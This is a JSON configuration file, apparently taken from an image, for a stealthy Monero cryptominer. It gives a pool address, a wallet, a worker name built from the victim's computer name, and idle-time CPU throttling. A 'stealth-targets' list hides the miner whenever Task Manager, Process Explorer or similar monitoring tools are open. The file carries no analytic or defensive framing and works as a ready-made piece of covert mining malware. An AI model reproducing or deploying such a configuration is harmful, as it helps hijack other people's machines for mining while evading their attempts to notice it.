 {
    "algo": "rx/0",
    "pool": "united.minecraft.pe",
    "port": 443,
    "wallet": "47AXmqm3ys97CzVA6LwweC8Qwu86FNHacU9WEzGWAVn5CHfXCVcbcHL2xiDwuufsPXYf6VPPNCAGaaF5e4nsLE9gCPp4hBz",
    "password": "cpp-{COMPUTERNAME}",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 30,
    "idle-wait": 3,
    "idle-cpu": 90,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": false
}
